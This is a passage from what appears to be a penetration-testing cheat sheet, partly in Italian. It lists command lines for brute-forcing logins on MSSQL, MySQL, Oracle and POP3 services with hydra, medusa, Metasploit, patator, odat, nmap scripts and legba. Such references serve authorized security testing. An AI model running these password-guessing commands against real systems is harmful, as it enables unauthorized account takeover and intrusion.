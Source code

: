 ```bash
legba mssql --username SA --password wordlists/passwords.txt --target localhost:1433
```
### MySQL
```bash
# hydra
hydra -L usernames.txt -P pass.txt <IP> mysql

# msfconsole
msf> use auxiliary/scanner/mysql/mysql_login; set VERBOSE false

# medusa
medusa -h <IP/Host> -u <username> -P <password_list> <-f | to stop medusa on first success attempt> -t <threads> -M mysql

#Legba
legba mysql --username root --password wordlists/passwords.txt --target localhost:3306
```
### OracleSQL
```bash
patator oracle_login sid=<SID> host=<IP> user=FILE0 password=FILE1 0=users-oracle.txt 1=pass-oracle.txt -x ignore:code=ORA-01017

./odat.py passwordguesser -s $SERVER -d $SID
./odat.py passwordguesser -s $MYSERVER -p $PORT --accounts-file accounts_multiple.txt

#msf1
msf> use admin/oracle/oracle_login
msf> set RHOSTS <IP>
msf> set RPORT 1521
msf> set SID <SID>

#msf2, this option uses nmap and it fails sometimes for some reason
msf> use scanner/oracle/oracle_login
msf> set RHOSTS <IP>
msf> set RPORTS 1521
msf> set SID <SID>

#for some reason nmap fails sometimes when executing this script
nmap --script oracle-brute -p 1521 --script-args oracle-brute.sid=<SID> <IP>

legba oracle --target localhost:1521 --oracle-database SYSTEM --username admin --password data/passwords.txt
```
Per utilizzare **oracle_login** con **patator** è necessario **installare**:
```bash
pip3 install cx_Oracle --upgrade
```
[Offline OracleSQL hash bruteforce](https://github.com/carlospolop/hacktricks/blob/master/network-services-pentesting/1521-1522-1529-pentesting-oracle-listener/remote-stealth-pass-brute-force.md#outer-perimeter-remote-stealth-pass-brute-force) (**versioni 11.1.0.6, 11.1.0.7, 11.2.0.1, 11.2.0.2,** e **11.2.0.3**):
```bash
nmap -p1521 --script oracle-brute-stealth --script-args oracle-brute-stealth.sid=DB11g -n 10.11.21.30
```
### POP
```bash
hydra -l USERNAME -P /path/to/passwords.txt -f <IP> pop3 -V
hydra -S -v -l USERNAME -P /path/to/passwords.txt -s 995 -f <IP> pop3 -V

# Insecure
legba pop3 --username admin@example.com --password wordlists/passwords.txt --target localhost:110

```